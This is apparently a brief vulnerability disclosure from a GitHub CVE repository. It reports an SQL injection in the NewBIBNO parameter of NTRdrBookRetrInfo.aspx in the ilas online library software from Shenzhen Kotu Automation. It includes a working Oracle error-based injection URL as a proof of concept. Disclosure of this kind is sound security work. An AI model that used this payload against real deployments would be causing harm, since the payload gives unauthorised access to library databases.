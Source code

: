 

## SQL injection into ilas online library

- Shenzhen Kotu Automation New Technology Co., Ltd

- NTRdrBookRetrInfo.aspx

- Parameter: NewBIBNO

### POC

```
NTRdrBookRetrInfo.aspx?BookRecno=341789&NewBIBNO=341789%20AND%206241=(SELECT%20UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(112)||CHR(112)||CHR(120)||CHR(113)||(SELECT%20(CASE%20WHEN%20(6241=6241)%20THEN%201%20ELSE%200%20END)%20FROM%20DUAL)||CHR(113)||CHR(112)||CHR(113)||CHR(106)||CHR(113)||CHR(62)))%20FROM%20DUAL)&NEWBOOK=newbook
```

![image-20240816101848450](https://github.com/shigophilo/CVE/blob/main/imgs/SQL%20injection%20into%20ilas%20online%20library/image-20240816101848450.png?raw=true)